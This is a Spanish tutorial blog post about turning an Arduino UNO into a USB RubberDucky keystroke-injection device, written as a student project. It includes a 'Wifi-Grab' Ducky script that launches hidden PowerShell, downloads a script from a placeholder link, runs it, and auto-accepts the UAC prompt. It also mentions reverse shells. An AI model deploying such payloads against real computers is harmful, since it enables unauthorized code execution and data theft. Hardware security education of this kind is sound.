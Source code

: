 ```yaml
---
title: "COMO CREAR UN RUBBERDUCKY CON UN ARDUINO UNO"
layout: post
date: 2021-09-28 00:42
tag: Arduino UNO, RubberDucky, Hardware, Hack, Se tensó
image: 
headerImage: true
projects: true
hidden: true
description: "Como crear un rubberducky con un Arduino UNO"
category: project
author: Carlos
externalLink: false
---
```

Muy buenas todos, hace tiempo en el 2º año de SMR (Sistemas Microinformáticos y Redes) nos mandaron a toda la clase hacer un proyecto con el Arduino UNO, nos dieron la libertad de hacer cualquier cosa, hubo gente que hicieron una impresora, otros un semáforo con luces, otros un mini altavoz que emitia pitidos y yo me propuse hacer un RubberDucky con la placa Arduino UNO.
Entonces empecé a investigar y justamente [**S4vitar**](https://www.youtube.com/channel/UCNHWpNqiM8yOQcHXtsluD7Q) subió un vídeo de como convertir el arduino uno en un rubberducky, parece que los planetas se alienaron porque la verdad es que no se. 
## Tabla de contenido
* [Introducción al USB RubberDucky](#introducción-al-usb-rubberducky)
* [Lenguaje del código de un RubberDucky](#lenguaje-del-código-de-un-rubberducky)
* [Introducción al Arduino UNO](#introducción-al-arduino-uno)
* [Instalando Duckduino](#instalando-duckduino)
* [Comenzamos a reconfigurar el Arduino](#comenzamos-a-reconfigurar-el-arduino)
* [Preparando el Arduino antes de conectarlo](#preparando-el-arduino-antes-de-contectarlo)
* [Preparando el script a cargar en el Arduino](#preparando-el-script-a-cargar-en-el-arduino)
* [Subimos el código al Arduino / RubberDucky](#subimos-el-código-al-arduino-/-rubberducky)
* [Ejecutamos el paso final para escribir el firmware del teclado](#ejecutamos-el-paso-final-para-escribir-el-firmware-del-teclado)
* [Probando nuestro RubberDucky 100% funcional](#probando-nuestro-rubberducky-100-funcional)

## Introducción al USB RubberDucky
> Por rubber ducky se conoce a un dispositivo USB que contiene información "maliciosa" la cual podría infectar tu PC una vez que lo conectas a ella. Esta información podría ser un keylogger, un encriptador de información o cualquier otra herramienta para apropiarse de tu **información** o negarte el uso a ella.

<div class="usb">
    <img src="/assets/images/rubberducky1.jpg" align="right">
</div>

> <p>Al momento de conectar este USB, es reconocido con un dispositivo HID, haciéndose pasar por un teclado normal (para no levantar sospechas y evitar que sea bloqueado por antivirus o firewall) y ejecuta las teclas indicadas en su código.</p>
> <p>En definitiva, es un ataque que puede sembrar el caos en una empresa porque si alguien deja un pendrive en una mesa es casi al 100% seguro que alguien lo enchufara para ver qué es y lo que menos se puede imaginar es que este USB este enviando una reverse shell o que este desactivando programas.</p>

## Lenguaje del código de un RubberDucky
- REM --> Indica comentarios, estas lineas no ejecutan nada. 
- DELAY --> Hace una pausa, en el caso del ejemplo de 3 segundos al principio y más adelante de medio segundo para esperar a que salga la ventana de ejecutar. 
- GUI r --> Es la pulsación de la tecla WIN y la “r”, que sirve para los sistemas operativos Windows para mostrar rápidamente la ventana de ejecutar. 
- STRING --> Es la pulsación de todas las teclas de manera automática y a gran velocidad. 
- ENTER --> Pulsa la tecla enter.
- WINDOWS --> Menú Windows.
- UPARROW --> Tecla arriba.
- DOWNARROW --> Tecla abajo.
- LEFTARROW --> Tecla a la izquierda.
- RIGHTARROW --> Tecla derecha.
- CAPS |CAPSLOCK --> BloqMayús.
- REPEAT X --> Repetir X número de veces el comando anterior.
- DELETE --> Simula la tecla suprimir
#### Se puede incluso utilizar algunas (pero no todas) de dos a tres combinaciones de teclas:
- SHIFT ENTER
- CTRL ALT DEL
- ALT F4
- WINDOWS X
- ALT TAB
- WINDOWS R

{% highlight c %}
REM Wifi-Grab
DELAY 500
GUI r
REM Delays 0.2 seconds to give the Run prompt time to open.
DELAY 200
REM this command will download the text and save as d.ps1 then run
REM if the script failed to run change the ExecPolicy to Bypass
STRING powershell /w 1 /C Set-ExecutionPolicy RemoteSigned;wget "DOWNLOAD_LINK" -o \d.ps1;\d.ps1
REM Presses Ctrl + Shift + Enter to execute the PowerShell with administrative privileges.
CTRL-SHIFT ENTER
REM Delay 0.5 seconds to give the UAC prompt time to open.
DELAY 500
REM Presses Alt + Y to bypass UAC.
ALT y
{% endhighlight %}
En el caso de utilizar Arduino hay que convertir este código con alguno de los conversores [Duckduino](https://github.com/Dukweeno/Duckuino) o [Ducky2Arduino](https://github.com/kr0no/Ducky2Arduino). [Aquí](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payloads) os dejo un repositorio de Github donde se encuentran bastantes scripts para utilizar, solo son compatibles con el usb rubberducky.
<p>Pero nosotros no vamos a utilizar estos conversores porque después nos montaremos nuestro propio script con el lenguaje de Arduino que es parecido a C.</p>

## Introducción al Arduino UNO
Arduino no es más que una plataforma de electrónica *open-source*o de código abierto cuyos principios son contar con software y hardware fáciles de usar. Básicamente lo que permite esta herramienta es la generación de infinidad de tipos de microordenadores de una sola placa, que luego pueden tener una amplia variedad de usos según la necesidad de la persona que lo cree.
<img src="/assets/images/arduinoUNO.jpg" align="right">
Cuenta con microcrontroladores reprogramables y una serie de pines hembras. Esto pues basicamente permiten establecer conecciones entre el microcontrolador y los diferentes sensores y actuadores de una manera bastante sencilla, generalmente suele ser con cables [Dupons](https://www.amazon.com/dupont-cable/s?k=dupont+cable).
Entonces el Arduino UNO de hoy podemos programarlo entre comillas para que actue como un RubberDucky.
